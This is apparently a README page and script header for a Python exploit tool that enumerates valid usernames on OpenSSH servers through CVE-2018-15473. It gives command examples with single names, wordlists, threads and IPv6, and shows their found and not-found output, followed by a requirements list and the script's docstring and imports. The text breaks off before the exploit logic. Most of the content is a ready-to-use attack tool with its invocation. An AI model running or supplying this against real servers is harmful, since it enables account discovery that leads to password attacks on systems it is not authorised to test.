 Examples
--------

> A single username

    (cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
    [+] epi found!

> Use a wordlist with 10 threads (the default is 4)

    (cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
    [+] avahi found!
    [+] avahi-autoipd found!
    [+] backup found!
    [+] daemon found!
    [+] bin found!
    ------8<------

> IPv6 Address on port 2222 and INCREASED VERBOSITY!

    (cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
    [-] 4Dgifts not found
    [-] demo not found
    [-] checkfs not found
    [-] anon not found
    [-] EZsetup not found
    [-] auditor not found
    [-] demos not found
    [-] OutOfBox not found
    [-] checkfsys not found
    [+] avahi found!
    [-] diag not found
    [-] ROOT not found
    [-] checksys not found
    [-] cmwlogin not found
    [+] avahi-autoipd found!
    ------8<------

> **requirements.txt**
>
> asn1crypto==0.24.0> bcrypt==3.1.4> cffi==1.11.5> cryptography==2.3.1> idna==2.7> paramiko==2.4.1> pyasn1==0.4.4> pycparser==2.18> PyNaCl==1.2.1> six==1.11.0

    #!/usr/bin/env python3
    """
    derived from work done by Matthew Daley
    https://bugfuzz.com/stuff/ssh-check-username.py
    props to Justin Gardner for the add_boolean workaround
    CVE-2018-15473
    --------------
    OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an
    invalid authenticating user until after the packet containing the request has been fully parsed, related to
    auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c.
    Author: epi
        https://epi052.gitlab.io/notes-to-self/
        https://gitlab.com/epi052/cve-2018-15473
    """
    import sys
    import re
    import socket
    import logging
    import argparse
    import multiprocessing
    from typing import Union